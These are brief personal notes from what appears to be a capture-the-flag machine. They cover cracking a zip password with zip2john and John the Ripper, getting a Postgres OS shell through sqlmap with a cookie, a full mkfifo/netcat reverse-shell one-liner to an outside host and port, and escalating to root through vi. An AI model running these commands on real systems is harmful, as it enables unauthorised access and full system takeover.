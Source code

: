 ## Key Takeaways
1. Got a password protected zip and dumped the hash using zip2john
2. Can crack using john the ripper now and a wordlists
3. john the ripper couldnt figure out format i passed in Raw-MD5
5. we got some crazy thing such as sqlmap where i pass os-shell and cookie to get postgres access
6. GOATED reverse shell mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.129 4444 > /tmp/f
7. stty raw -echo; fg stty sane to go back export TERM=xterm
8. I had vi permissions, i can use it so spawn :!/bin/bash as root
